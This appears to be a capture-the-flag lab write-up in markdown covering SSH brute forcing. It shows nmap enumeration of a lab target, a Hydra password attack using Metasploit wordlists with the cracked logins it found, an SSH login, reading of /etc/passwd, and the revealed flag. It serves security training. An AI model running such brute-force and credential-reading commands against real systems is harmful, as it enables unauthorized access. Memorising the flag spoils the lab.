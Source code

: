 # 🔬SSH

## Lab 1

>  🔬 [SSH Login](https://attackdefense.com/challengedetails?cid=1526)
>
>  - Target IP: `192.63.218.3`
>  - **Brute-force** of [OpenSSH](https://www.openssh.com/) server
>  - **Enumeration and nmap scripts** have been already covered in this [SSH Enum lab](../../../assessment-methodologies/3-enumeration/ssh-enum.md)

### Enumeration

```bash
ip -br -c a

nmap -sV 192.63.218.3
```

```bash
22/tcp open  ssh  OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
```

> 📌 OpenSSH 7.9p1 cannot be exploited directly

### Brute-Force

- Metasploit `ssh_login` module or `Hydra` tool can be utilized for brute forcing the SSH password

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.63.218.3 -t 4 ssh
```

```bash
[22][ssh] host: 192.63.218.3   login: sysadmin   password: hailey
[STATUS] 77.00 tries/min, 77 tries in 00:01h, 273 to do in 00:04h, 4 active
[22][ssh] host: 192.63.218.3   login: rooty   password: pineapple
[...]
```

- Login to the target via SSH

```bash
ssh sysadmin@192.63.218.3
```

```bash
groups sysadmin
cat /etc/*release
uname -r
cat /etc/passwd
find / -name "flag"
cat /flag
```

<details>
<summary>Reveal Flag: 🚩</summary>



`eb09cc6f1cd72756da145892892fbf5a`

![](linux-attacksassets/image-20230319165718497.png)

</details>

------


